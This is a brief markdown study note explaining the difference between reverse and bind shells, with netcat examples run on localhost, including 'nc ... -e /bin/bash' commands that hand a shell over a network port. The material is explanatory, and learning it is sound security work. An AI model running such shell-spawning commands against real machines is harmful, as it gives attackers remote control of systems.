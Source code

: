 
# Reverse shell vs. bind shell

A reverse shell is when a victim machine connects to us (attacker), and gives us shell access,
while a bind shell is when we (attacker) connect to a machine (victim) that gives us shell access.

In both instances the victim gives us access to the shell, the difference is who
listens and who connects.

## Creating them locally

Reverse shell with bash:

```bash
nc -nvlp 4444 # in attacker terminal
nc localhost 4444 -e /bin/bash # in victim terminal
```

Bind shell with bash:

```bash
nc localhost 4444
nc -nvlp 4444 -e /bin/bash
```
